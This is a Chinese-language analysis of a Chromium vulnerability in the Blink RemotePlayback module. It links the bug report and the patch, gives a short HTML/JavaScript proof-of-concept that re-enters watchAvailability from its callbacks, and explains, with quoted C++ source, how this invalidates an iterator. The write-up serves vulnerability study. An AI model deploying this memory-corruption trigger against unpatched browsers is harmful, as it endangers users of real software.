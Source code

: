https://bugs.chromium.org/p/chromium/issues/detail?id=1108497

补丁：
https://chromium-review.googlesource.com/c/chromium/src/+/2314981/3/third_party/blink/renderer/modules/remoteplayback/remote_playback.cc

通过复制了临时变量来防止执行过程中迭代器失效。

poc：

```
<html>
  <head>
    <script>
      function trigger() {
        let audio = new Audio('/wav.wav');
        document.body.appendChild(audio);
        function callback(v) {
          if (v)
            for (var i = 0; i < 4; i++)
              audio.remote.watchAvailability((v) => {i});
        }
        audio.addEventListener('canplay', function() {
          for (var i = 0; i < 4; i++) audio.remote.watchAvailability(callback);
        });
      }
  </script>
  </head>
  <body onload="trigger()">
  </body>
</html>
```

漏洞成因：

调用watchAvailability可以向availability_callbacks_中添加callback：
```
int RemotePlayback::WatchAvailabilityInternal(
    AvailabilityCallbackWrapper* callback) {
  if (RuntimeEnabledFeatures::RemotePlaybackBackendEnabled() &&
      IsBackgroundAvailabilityMonitoringDisabled()) {
    return kWatchAvailabilityNotSupported;
  }

  int id;
  do {
    id = GetExecutionContext()->CircularSequentialID();
  } while (!availability_callbacks_.insert(id, callback).is_new_entry);

  // Report the current availability via the callback.
  // TODO(yuryu): Wrapping notifyInitialAvailability with base::OnceClosure as
  // InspectorInstrumentation requires a globally unique pointer to track tasks.
  // We can remove the wrapper if InspectorInstrumentation returns a task id.
  base::OnceClosure task = WTF::Bind(&RemotePlayback::NotifyInitialAvailability,
                                     WrapPersistent(this), id);
  std::unique_ptr<probe::AsyncTaskId> task_id =
      std::make_unique<probe::AsyncTaskId>();
  probe::AsyncTaskScheduled(GetExecutionContext(), "watchAvailabilityCallback",
                            task_id.get());
  GetExecutionContext()
      ->GetTaskRunner(TaskType::kMediaElementEvent)
      ->PostTask(FROM_HERE, WTF::Bind(RunRemotePlaybackTask,
                                      WrapPersistent(GetExecutionContext()),
                                      WTF::Passed(std::move(task)),
                                      WTF::Passed(std::move(task_id))));

  MaybeStartListeningForAvailability();
  return id;
}
```

如果availabilityCallback调用watchAvailability()（即callback->Run处），就可能会导致availability_callbacks_被重新分配，导致for (auto& callback : availability_callbacks_.Values())中的迭代器失效。
```
void RemotePlayback::AvailabilityChanged(
    mojom::blink::ScreenAvailability availability) {
  DCHECK(is_listening_);
  DCHECK_NE(availability, mojom::ScreenAvailability::UNKNOWN);
  DCHECK_NE(availability, mojom::ScreenAvailability::DISABLED);

  if (availability_ == availability)
    return;

  bool old_availability = RemotePlaybackAvailable();
  availability_ = availability;
  bool new_availability = RemotePlaybackAvailable();
  if (new_availability == old_availability)
    return;

  for (auto& callback : availability_callbacks_.Values())
    callback->Run(this, new_availability); // invokes user script; can invalidate the iterator for the for loop
}
```
